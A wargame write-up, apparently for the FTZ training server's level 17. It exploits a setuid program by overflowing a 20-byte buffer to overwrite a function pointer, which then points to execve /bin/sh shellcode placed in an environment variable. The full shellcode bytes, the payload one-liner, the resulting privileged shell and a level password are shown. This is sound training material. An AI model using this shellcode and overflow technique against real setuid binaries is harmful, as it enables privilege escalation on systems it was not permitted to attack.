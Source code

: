 # Level17

## This level's goal
- Function pointer modulation with the shell code

***

```
[level17@ftz level17]$ ls -l
-rwsr-x---    1 level18  level17     13853 Mar  8  2003 attackme
-rw-r-----    1 root     level17       191 Mar  8  2003 hint

[level17@ftz level17]$ cat hint

#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

The hint seems almost same as level16, but I need to change printit() to egg shell code to exploit this level.

In level16, we could understand the memory size.

buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

I will make egg.c(shell code) and getegg.c(to get shell code address).

```
[level17@ftz level17]$ export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

[level17@ftz tmp]$ cat getegg.c
#include <stdlib.h>
main() {
        printf("EGG : %p", getenv("EGG"));
}

[level17@ftz tmp]$ gcc getegg.c -o getegg
[level17@ftz tmp]$ ./getegg
EGG : 0xbffffc8e
```

The shell code address is 0xbffffc8e, so the attack code will be 40bytes dummy strings + shell code's address(0xbffffc8e).

```
[level17@ftz level17]$ (python -c 'print "A"*40+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)

my-pass
Level18 Password is "why did you do it".
```
